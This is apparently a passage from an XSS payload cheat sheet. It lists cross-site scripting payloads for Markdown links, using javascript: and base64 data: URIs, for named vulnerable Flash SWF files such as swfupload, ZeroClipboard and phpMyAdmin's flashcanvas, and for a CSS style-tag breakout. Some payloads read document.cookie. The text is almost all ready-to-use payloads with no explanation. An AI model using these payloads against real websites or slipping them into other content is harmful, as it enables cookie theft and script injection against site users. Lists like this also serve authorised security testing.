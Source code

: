 ### XSS in Markdown

```csharp
[a](javascript:prompt(document.cookie))
[a](j a v a s c r i p t:prompt(document.cookie))
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](javascript:window.onerror=alert;throw%201)
```

### XSS in SWF flash application

```powershell
Browsers other than IE: http://0me.me/demo/xss/xssproject.swf?js=alert(document.domain);
IE8: http://0me.me/demo/xss/xssproject.swf?js=try{alert(document.domain)}catch(e){ window.open(‘?js=history.go(-1)’,’_self’);}
IE9: http://0me.me/demo/xss/xssproject.swf?js=w=window.open(‘invalidfileinvalidfileinvalidfile’,’target’);setTimeout(‘alert(w.document.location);w.close();’,1);
```

more payloads in ./files

### XSS in SWF flash application

```
flashmediaelement.swf?jsinitfunctio%gn=alert`1`
flashmediaelement.swf?jsinitfunctio%25gn=alert(1)
ZeroClipboard.swf?id=\"))} catch(e) {alert(1);}//&width=1000&height=1000
swfupload.swf?movieName="]);}catch(e){}if(!self.a)self.a=!alert(1);//
swfupload.swf?buttonText=test<a href="javascript:confirm(1)"><img src="https://web.archive.org/web/20130730223443im_/http://appsec.ws/ExploitDB/cMon.jpg"/></a>&.swf
plupload.flash.swf?%#target%g=alert&uid%g=XSS&
moxieplayer.swf?url=https://github.com/phwd/poc/blob/master/vid.flv?raw=true
video-js.swf?readyFunction=alert(1)
player.swf?playerready=alert(document.cookie)
player.swf?tracecall=alert(document.cookie)
banner.swf?clickTAG=javascript:alert(1);//
io.swf?yid=\"));}catch(e){alert(1);}//
video-js.swf?readyFunction=alert%28document.domain%2b'%20XSSed!'%29
bookContent.swf?currentHTMLURL=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4
flashcanvas.swf?id=test\"));}catch(e){alert(document.domain)}//
phpmyadmin/js/canvg/flashcanvas.swf?id=test\”));}catch(e){alert(document.domain)}//
```

### XSS in CSS

```html
<!DOCTYPE html>
<html>
<head>
<style>
div  {
    background-image: url("data:image/jpg;base64,<\/style><svg/onload=alert(document.domain)>");
    background-color: #cccccc;
}
</style>
</head>
  <body>
    <div>lol</div>
  </body>
</html>
```

